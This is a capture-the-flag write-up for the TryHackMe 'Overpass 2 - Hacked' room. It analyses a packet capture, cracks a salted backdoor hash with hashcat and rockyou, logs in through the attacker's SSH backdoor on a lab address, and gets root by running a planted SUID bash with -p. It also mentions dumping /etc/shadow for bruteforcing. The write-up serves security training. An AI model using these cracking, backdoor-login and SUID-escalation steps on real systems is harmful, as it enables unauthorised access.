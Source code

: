 # [Overpass 2 - Hacked [easy]](https://tryhackme.com/room/overpass2hacked)

# 1) Forensics - Analyse the PCAP

After opening the pcap file on [wireshark](https://www.wireshark.org/), we can look at the HTTP stream doing: `Analyze -> Follow -> HTTP Stream`

![alt text](https://i.imgur.com/sFJRXF9.png)

Here we can see the URL of the page they used to upload a reverse shell and the payload of the attacker.

There is nothing interesting on the second tcp stream but, if we add this filter: `tcp.stream eq 3` and open the TCP Stream we can find interesting informations:

![alt text](https://i.imgur.com/0AxKyZg.png)

Here we can see the password the attacker used to privesc and the backdoor he used for persistence.

The last question is: **Using the fasttrack wordlist, how many of the system passwords were crackable?**

First we will dump `/etc/shadow` and bruteforce it using [the fasttrack wordlist](https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt)

# 2)  Research - Analyse the code

Let's take a look at the [code](https://github.com/NinjaJc01/ssh-backdoor):

Looking at `main.go` we can easily get the default hash and the hardcoded salt.

Looking back at the pcap we can get the attacker hash, we can bruteforce it using hashcat by just running:

```
hashcat -m 1710 -a 0 hash:salt ~/wordlists/rockyou.txt
```

```
>>> hashcat -m 1710 -a 0 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 ~/wordlists/rockyou.txt --show

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:password
```

# 3)  Attack - Get back in!

When we go on the website we can see this page:

![alt text](https://i.imgur.com/LbuKaPw.png)

Let's connect to the machine using ssh:

```
>>> ssh -oHostKeyAlgorithms=+ssh-rsa -p 2222 10.10.228.190  
nk0@10.10.228.190's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
```
The password is the hash we cracked using rockyou.


looking at `james` home we can see a suid file, let's exploit it:
```
james@overpass-production:/home/james$ ls -a
.              .bash_logout  .gnupg     .profile                   ssh-backdoor
..             .bashrc       .local     .sudo_as_admin_successful  user.txt
.bash_history  .cache        .overpass  .suid_bash                 www
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```
